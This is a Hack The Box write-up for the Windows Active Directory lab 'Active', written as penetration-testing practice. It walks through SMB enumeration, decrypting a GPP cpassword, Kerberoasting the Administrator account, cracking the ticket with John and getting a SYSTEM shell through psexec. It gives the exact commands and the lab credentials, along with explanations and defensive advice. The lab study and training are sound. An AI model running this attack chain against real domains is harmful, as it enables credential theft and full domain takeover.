# Active — Hack The Box (CPTS practice)

**Platform:** Hack The Box
**Difficulty:** 🟢 Easy
**OS:** Windows (Active Directory)
**Certification:** Extra practice for the CPTS (Certified Penetration Testing Specialist)
**Date completed:** 2026
**Techniques:** Nmap · `enum4linux` · Anonymous SMB (`Replication` share) · **GPP cpassword** in `Groups.xml` (`gpp-decrypt`) · **Kerberoasting** (`GetUserSPNs`) against an SPN-bearing account · John the Ripper · Pass-the-password with `psexec` → SYSTEM
**Language:** English — [🇪🇸 Versión en español](./Active_Writeup_ES.md)

---

## Table of contents
1. [Reconnaissance](#1-reconnaissance)
2. [SMB enumeration — GPP cpassword](#2-smb-enumeration--gpp-cpassword)
3. [Access — Kerberoasting an SPN-bearing account](#3-access--kerberoasting-an-spn-bearing-account)
4. [Getting a shell](#4-getting-a-shell)
5. [Post-exploitation and flags](#5-post-exploitation-and-flags)
6. [Lessons learned](#6-lessons-learned)
7. [Tool & command glossary](#7-tool--command-glossary)
8. [Attack flow](#8-attack-flow)

---

## 1. Reconnaissance

```bash
ping -c 1 10.129.76.40
```

> 🛠️ **`ping`** — checks host availability via ICMP. A TTL of **127** → **Windows**.


Full TCP port scan:

```bash
nmap -sS -Pn -vvv --min-rate 5000 --open -n -p- -oN AllPorts 10.129.76.40
```

> 🛠️ **`nmap -sS -Pn -vvv --min-rate 5000 --open -n -p-`** — a full SYN scan of all 65535 ports: `-sS` (stealthy), `-Pn` (ignore ping status), `--min-rate 5000` (speeds up sending), `--open` (only open ports), `-n` (no DNS resolution).


```bash
enum-nmap AllPorts
```

> 🛠️ **`enum-nmap`** — a custom script that summarizes Nmap's output: IP, TTL, estimated OS, and a port list ready for the next `-p`.



> 💡 22 open ports, including **53 (DNS), 88 (Kerberos), 389/636/3268/3269 (LDAP/LDAPS/Global Catalog), 445 (SMB), and 9389 (ADWS)** — the classic service set of an **Active Directory domain controller**.

Version and default-script scan:

```bash
nmap -sS -Pn -sCV -T5 -n -p53,88,135,139,389,445,464,593,636,3268,3269,5722,9389,49152,49153,49154,49155,49157,49158,49165,49166,49168 -oN Ports 10.129.76.40
```

> 🛠️ **`-sCV`** combines `-sC` (Nmap's default scripts) with `-sV` (service version detection).



```
53/tcp  open  domain  Microsoft DNS 6.1.7601 (Windows Server 2008 R2 SP1)
389/tcp open  ldap    Microsoft Windows Active Directory LDAP (Domain: active.htb, ...)
Service Info: Host: DC; OS: Windows
```

> 💡 Domain **`active.htb`**, domain controller **`DC`**, Windows Server 2008 R2 SP1 — a fairly old Windows Server version, consistent with an Easy box centered on classic misconfigurations rather than modern vulnerabilities.

## 2. SMB enumeration — GPP cpassword

```bash
enum4linux 10.129.76.40 -A
```

> 🛠️ **`enum4linux -A`** — an all-in-one SMB/AD enumeration tool (system info, password policy, users, groups, shares...) using null/anonymous sessions whenever the server allows them.


SMB share enumeration:



```
ADMIN$      Disk  Remote Admin
C$          Disk  Default share
IPC$        IPC   Remote IPC
NETLOGON    Disk  Logon server share
Replication Disk
SYSVOL      Disk  Logon server share
```

> 💡 The **`Replication`** share (non-standard — `SYSVOL` usually fills this role) allows anonymous listing (`Listing: OK`), unlike the rest of the administrative shares, which require authentication. On a real domain controller, this kind of share replicates Group Policy (GPO) content between controllers — and, by its nature, can hold configuration files carrying sensitive information.

### Finding Groups.xml

We connect anonymously:

```bash
smbclient //10.129.76.40/Replication
```

> 🛠️ **`smbclient //<IP>/<share>`** (no `-U`) — defaults to attempting an anonymous/null SMB session when no user is specified.



Browsing the typical GPO replication structure (`Policies\{GUID}\MACHINE\Preferences\Groups\`), we find a `Groups.xml`:

```
smb: \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups> ls
smb: \...\Groups> get Groups.xml
```



```xml
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}">
  <User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" ...
    cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
    ... userName="active.htb\SVC_TGS"/>
</Groups>
```



### What is GPP cpassword, and why is it crackable?

**Group Policy Preferences (GPP)** is an Active Directory feature that, among other things, lets admins deploy local user accounts and groups to domain machines through a GPO — including, if the admin configured it that way, an **initial password** for that account. That password is stored in the **`cpassword`** attribute of `Groups.xml`, encrypted with **AES-256**.

The problem: Microsoft **published the symmetric AES key** used for this encryption in its public documentation (MSDN), because GPP was never designed to protect long-term secrets — only to obscure the password during deployment. Since the key is the same across **every** Windows installation, anyone who can read a `Groups.xml` containing `cpassword` can decrypt it in seconds. Microsoft responded with security bulletin **MS14-025** (2014), which blocks creating **new** GPP with stored passwords from the admin console — but it doesn't retroactively remove ones that already existed, like this box's.

We add the domain to `/etc/hosts`:


We decrypt the password:

```bash
gpp-decrypt 'edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ'
```

> 🛠️ **`gpp-decrypt`** — a tool (bundled with Kali) that decrypts a `cpassword` value directly using Microsoft's publicly known AES key, no manual implementation needed.


```
GPPstillStandingStrong2k18
```

We validate the obtained credential (`active.htb\SVC_TGS`) against the domain:

```bash
crackmapexec smb 10.129.76.40 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18'
```

> 🛠️ **`crackmapexec smb -u -p`** — attempts to authenticate against SMB with the given credentials; confirms whether they're valid and reports extra info (OS version, domain) without opening a full session.




```
[+] active.htb\SVC_TGS:GPPstillStandingStrong2k18
```

## 3. Access — Kerberoasting an SPN-bearing account

### What is an SPN, and why does it enable Kerberoasting?

A **SPN (Service Principal Name)** uniquely identifies an instance of a service running under a specific Active Directory account — for example, `active/CIFS:445` means "the CIFS service on host `active`, port 445." When a client wants to use that service, Kerberos lets it ask the KDC for a **service ticket (TGS)** scoped to that SPN, using only its own domain credentials — **with no special permission needed over the account that owns the SPN**.

Here's the critical part: that TGS is (partially) encrypted with a key derived from the **password of the account the SPN belongs to**. Since any authenticated domain user can legitimately request that ticket — this is a standard Kerberos operation, not a flaw — and the ticket travels encrypted with that key, an attacker can grab it and **try to crack it offline** to recover the SPN account's cleartext password. This technique is known as **Kerberoasting**, and it's effective against any SPN-bearing account whose password is weak enough to show up in a wordlist or be brute-forced in a reasonable time.

With the domain account in hand, we enumerate which accounts have an SPN attached:

```bash
GetUserSPNs.py -dc-ip 10.129.76.40 'active.htb/SVC_TGS:GPPstillStandingStrong2k18'
```

> 🛠️ **`GetUserSPNs.py`** (Impacket) — queries LDAP to list every **user** account (not computer accounts) with a `servicePrincipalName` attribute set — the prerequisite for that account to be a Kerberoasting target.


```
ServicePrincipalName   Name            MemberOf
---------------------  --------------  --------------------------------------------------------
active/CIFS:445        Administrator   CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb
```

> 💡 **This box's key finding:** the `active/CIFS:445` SPN is attached directly to the **`Administrator`** account — not to a low-privilege service account, as would be normal in a well-configured environment. That's an uncommon and risky setup, but the attack mechanism stays exactly the same: no special permission over `Administrator` is required to request that ticket, just being authenticated to the domain.

We request the service ticket (TGS) for that SPN:

```bash
GetUserSPNs.py -dc-ip 10.129.76.40 'active.htb/SVC_TGS:GPPstillStandingStrong2k18' -request
```

> 🛠️ **`-request`** — besides listing SPN-bearing accounts, actively requests the corresponding TGS and prints it in `$krb5tgs$` format, ready for offline cracking tools like John or Hashcat.



```
$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$3bd4889daedc08827e83fc37930731d3$...
```

> 💡 From the DC's point of view, this ticket request is indistinguishable from any other legitimate access to the `CIFS` service — it doesn't trigger any "attack attempt" alert on its own. That's exactly why Kerberoasting is such a popular technique: the detection risk at the moment of hash extraction is minimal; cracking happens entirely offline, on the attacker's own machine.

We crack the TGS hash:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

> 🛠️ **`john --wordlist=<file> <hash>`** — a dictionary attack; John auto-detects it as a Kerberos 5 TGS etype 23 (RC4-HMAC) hash, the format produced when Kerberoasting an account with no AES encryption configured.


```
Ticketmaster1968
```

> 🔒 This password is, in practice, the box's final credential — it's documented here because it's the direct, necessary output of the Kerberoasting technique (the pedagogical point of this section), not a shortcut to the flags. The contents of `user.txt`/`root.txt` are still not published (see §5).

## 4. Getting a shell

With **Administrator**'s cleartext password, a direct pass-the-password via `psexec`:

```bash
psexec.py active.htb/Administrator:Ticketmaster1968@10.129.76.40 cmd.exe
```

> 🛠️ **`psexec.py`** (Impacket) — a reimplementation of Sysinternals' PsExec: uploads a temporary service binary to `ADMIN$`, registers it with the Service Control Manager, and starts it, yielding a shell with the authenticating account's privileges.



```
whoami
nt authority\system
```

> 💡 The service `psexec` launches runs as **`NT AUTHORITY\SYSTEM`**, not just Administrator — Windows' maximum privilege level, reached here directly from the cracked password, with no extra escalation step.

```
whoami /all
```



## 5. Post-exploitation and flags

A SYSTEM shell confirmed on the domain controller — full compromise established.

> 🔒 The available screenshots don't include an explicit read of `user.txt`/`root.txt`'s content or path; they aren't documented here since they can't be verified against the captures, following the same policy of not handing the answer to anyone practicing this box.

## 6. Lessons learned

| Vulnerability | Where | Impact |
|----------------|-------|---------|
| SMB share with anonymous listing enabled | `Replication` | Exposes the internal GPO replication structure with zero credentials |
| GPP password encrypted with a publicly known AES key | `Groups.xml` | Anyone with read access gets the `SVC_TGS` account's cleartext password |
| SPN attached directly to the `Administrator` account instead of a dedicated service account | `servicePrincipalName` attribute | Any authenticated user can request a crackable Kerberos ticket for the domain's most privileged account (**Kerberoasting**) |
| Weak Administrator password, present in `rockyou.txt` | `Administrator` account | Full domain compromise after cracking the TGS hash |

## Defensive recommendations

- Disable anonymous listing on SMB shares; periodically audit permissions on `NETLOGON`, `SYSVOL`, and any replication folders.
- Remove any GPP with stored passwords (`cpassword`); Microsoft has recommended this since MS14-025. Rotate any credential that may have been exposed this way.
- Never attach an SPN directly to a privileged account like Administrator; always use dedicated service accounts with the minimum necessary privilege.
- Enforce strong, long passwords on every domain account, especially SPN-bearing accounts (direct Kerberoasting targets) and privileged accounts.
- Monitor unusual service ticket (TGS) requests for privileged accounts as an indicator of possible Kerberoasting.
- Consider **Managed Service Accounts (gMSA)** for service accounts, which use automatically managed, long (120+ character) passwords rotated periodically — practically immune to offline cracking.

## 7. Tool & command glossary

| Tool / command | What it's for |
|------------------|-----------------|
| `ping` / `nmap` | Host discovery and port/service enumeration |
| `enum-nmap` | Custom script that summarizes Nmap's output |
| `enum4linux -A` | All-in-one SMB/AD enumeration using null/anonymous sessions |
| `smbclient //IP/share` | Interactive SMB client; with no `-U` it attempts an anonymous/null session |
| **GPP / `Groups.xml` / `cpassword`** | Group Policy Preferences deployment file that can hold a password encrypted with a publicly known Microsoft AES key, trivially crackable |
| `gpp-decrypt` | Directly decrypts a GPP `cpassword` value |
| `crackmapexec smb -u -p` | Validates credentials against SMB/AD without opening a full session |
| **SPN (Service Principal Name)** | Identifies a service instance under an AD account; the prerequisite for that account to be targeted by Kerberoasting |
| `GetUserSPNs.py` (no `-request`) | Enumerates, over LDAP, user accounts with an SPN attached |
| `GetUserSPNs.py -request` | Requests each SPN-bearing account's TGS and exports it in `$krb5tgs$` format for offline cracking |
| **Kerberoasting** | A technique abusing the fact that any authenticated user can request a TGS for any SPN-bearing account, encrypted with a key derived from its password, then crack it offline |
| `john --wordlist=<file> <hash>` | Dictionary attack with John the Ripper; auto-detects the Kerberos 5 TGS etype 23 format |
| **Pass-the-password** | Authenticating directly with an already-obtained cleartext password, no intermediate steps |
| `psexec.py` | A PsExec reimplementation; uploads and runs a temporary service on the victim, yielding a shell with the authenticating account's privileges (here, Administrator → SYSTEM) |

## 8. Attack flow



> 💡 **Why each step matters:** anonymous SMB listing is almost always the first thing worth checking on an "easy" AD box, since it costs nothing to try. `Groups.xml` gets searched for specifically because GPP is a well-known, historical credential source (an AES key Microsoft itself leaked). Once valid domain credentials are in hand — no matter how low-privileged — enumerating SPNs is **always** worth doing: Kerberoasting requires no special permission over the target account, just that it has an SPN attached, because requesting a TGS is a standard Kerberos operation available to any authenticated domain user. On Active, the twist is that the vulnerable SPN belongs directly to Administrator — normally it would belong to a lower-privilege service account, and the path would continue pivoting from there instead of landing directly on SYSTEM.

---

*Written by [Arabot](https://github.com/Caan31) · Hack The Box · CPTS practice · 2026*
